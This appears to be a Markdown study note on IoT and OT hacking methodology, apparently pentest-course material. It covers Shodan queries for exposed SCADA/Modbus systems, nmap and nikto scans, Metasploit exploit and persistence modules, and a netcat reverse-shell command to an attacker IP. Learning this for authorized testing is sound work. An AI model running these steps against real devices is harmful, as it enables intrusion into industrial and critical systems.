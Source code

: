 # IoT and OT Hacking
> IoT and OT device hacking is performed to compromise smart devices such as CCTV cameras, automobiles, printers, door locks, washing machines, etc. to gain unauthorized access to network resources as well as IoT and OT devices.


Using the IoT and OT hacking methodology, an attacker acquires information using techniques such as information gathering, attack surface area identification, and vulnerability scanning, and uses such information to hack the target device and network.

footprinting on the MQTT protocol, which is a machine-to-machine (M2M)/“Internet of Things” connectivity protocol. It is useful for connections with remote locations where a small code footprint is required and/or network bandwidth is at a premium.

The following are the various phases of IoT and OT device hacking:

- Information gathering
- Vulnerability scanning
- Launch attacks
- Gain remote access
- Maintain access

Gather Information using Online Footprinting Tools
- The information regarding the target IoT and OT devices can be acquired using various online sources such as Whois domain lookup, advanced Google hacking, and Shodan search engine. The gathered information can be used to scan the devices for vulnerabilities and further exploit them to launch attacks.

- https://www.whois.com/whois/ 
- https://www.exploit-db.com/google-hacking-database     
	- type SCADA
	- "login" intitle:"scada login" 
- https://www.shodan.io/dashboard
	- port:1883
  - Search for Modbus-enabled ICS/SCADA systems:
    - port:502
  - Search for SCADA systems using PLC name:
    - “Schneider Electric”
  - Search for SCADA systems using geolocation:
    - SCADA Country:"US"

Overview of IoT and OT Traffic
- Many IoT devices such as security cameras host websites for controlling or configuring cameras from remote locations. These websites mostly implement the insecure HTTP protocol instead of the secure HTTPS protocol and are, hence, vulnerable to various attacks. If the cameras use the default factory credentials, an attacker can easily intercept all the traffic flowing between the camera and web applications and further gain access to the camera itself. Attackers can use tools such as Wireshark to intercept such traffic and decrypt the Wi-Fi keys of the target network.

---

# IoT and OT Hacking

> [!NOTE]
> The hacking of IoT and OT devices involves multiple phases where attackers seek to exploit vulnerabilities in smart devices and network infrastructure. The methodology extends from information gathering to maintaining persistent access. Below, I will detail this hacking process, including examples of how specific tools and modules within Parrot OS, a popular penetration testing and security-focused distribution, can be utilized to achieve these objectives.
> 
> The various phases of IoT and OT device hacking:
> - Information gathering
> - Vulnerability scanning
> - Launch attacks
> - Gain remote access
> - Maintain access


#### 1. **Information Gathering**
This phase involves collecting as much information as possible about the target devices. This can include details like IP addresses, device types, OS versions, and network configurations.

- **Online Footprinting Tools**:
	- **Whois domain lookup**: Use the `whois` command in your Shell to retrieve information about the domain associated with the target IoT devices.
  
  ```bash
  whois example.com
  ```
  
  
  - **Advanced Google Hacking**: Utilize the Google Hacking Database to find specific queries that can expose sensitive information. Queries can be crafted based on the information in the database:
  
    ```bash
    site:example.com inurl:admin
    ```
  
  
- Shodan Search:
	 - Using Shodan command-line interface, you can perform network searches to find IoT devices:

```bash
    shodan search port:1883
    shodan search port:502
    shodan search "Schneider Electric"
```


#### 2. **Vulnerability Scanning**
After gathering the necessary information, the next step is to identify vulnerabilities that can be exploited.

- **Nmap**: This tool can scan for open ports and detect services running on IoT devices.

  ```bash
  sudo nmap -sV -p 1883,502 <target-ip>
  ```


- **Nikto**: A web server scanner that can detect outdated software and potential vulnerabilities.

  ```bash
  nikto -h http://<target-ip>
  ```


#### 3. **Launch Attacks**
With the vulnerabilities identified, attackers can launch targeted attacks against the devices.

- **Metasploit**: A popular framework for developing and executing exploit code against a remote target machine.

  ```bash
  msfconsole
  use exploit/multi/http/cctv_cam_xss
  set RHOSTS <target-ip>
  exploit
  ```


#### 4. **Gain Remote Access**
The objective here is to exploit vulnerabilities to gain control over the device or network.

- **Reverse Shell**: Establish a reverse shell to control the device using netcat or a Metasploit payload.

  ```bash
  nc -lvnp 4444 # Listening on the attacker machine
  nc <attacker-ip> 4444 -e /bin/bash # From the target device
  ```


#### 5. **Maintain Access**
The final goal is to ensure persistent access to the exploited system, even after a reboot or other disruptions.

- **Persistent Backdoors**:
  - **Metasploit** provides multiple modules for establishing persistent access.
  
    ```bash
    use exploit/windows/local/persistence
    set SESSION <session-id>
    exploit
    ```


#### Overview of IoT and OT Traffic Monitoring
- **Wireshark**: Capture and analyse packets to intercept unencrypted data such as HTTP traffic from IoT devices.

  ```bash
  sudo wireshark
  ```

  - Analyse packets for default credentials or unencrypted data flowing between IoT devices and control systems.

This rewritten guide with Parrot OS tools provides a more detailed and practical approach for hacking IoT and OT devices by leveraging commonly used tools in cybersecurity practices. Each tool and command line provided can be tailored to specific targets or scenarios as required in real-world penetration testing.